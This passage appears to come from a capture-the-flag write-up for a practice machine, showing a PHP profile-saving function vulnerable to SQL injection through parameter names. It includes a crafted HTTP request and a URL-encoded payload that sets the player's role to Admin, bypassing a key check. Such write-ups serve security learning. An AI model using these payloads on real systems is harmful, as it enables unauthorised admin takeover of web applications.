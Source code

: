 It seems that it checks the key-value pair for `role`, and prevents it from being modified. The `save_profile` function is from `db_utils.php`:

```php
function save_profile($player, $args) {
	global $pdo;
  	$params = ["player"=>$player];
	$setStr = "";
  	foreach ($args as $key => $value) {
    		$setStr .= $key . "=" . $pdo->quote($value) . ",";
	}
  	$setStr = rtrim($setStr, ",");
  	$stmt = $pdo->prepare("UPDATE players SET $setStr WHERE username = :player");
  	$stmt -> execute($params);
}
```

### Admin Takeover

Based on the source code above, I'm pretty sure that the `strtolower($key)` check can be bypassed. Also, it looks really intentionally left there. If we can bypass it and add the `Role` parameter, we can update it with `Admin` since it's directly passed directly to `$args[$key] = $value`.&#x20;

The only source I could find was this:

{% embed url="https://security.stackexchange.com/questions/169858/bypass-php-strtoupper-to-perform-sql-injection-on-mysql-database" %}

The above was for SQL Injection, and it shows how putting the characters in hex works. We can test this out using this request:

```http
GET /save_game.php?clicks=32&level=1&%72%6f%6c%65 HTTP/1.1
Host: clicker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://clicker.htb/play.php
Cookie: PHPSESSID=udc6g87assj3dgqae6842oque3
Upgrade-Insecure-Requests: 1

```

The above request returns a 302 instead of a 500 (which this machine does for errors), indicating that it worked! Now we just need to specify the value of 'Admin' in hex. For some reason, it only accepts "Admin" as a valid parameter. Since this is passed to the SQL database, I added a # character to the end to quote the rest of the query.

```
clicks=321&level=1&%72%6f%6c%65%3d%22%41%64%6d%69%6e%22%23
```

After re-login, we see this:

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>
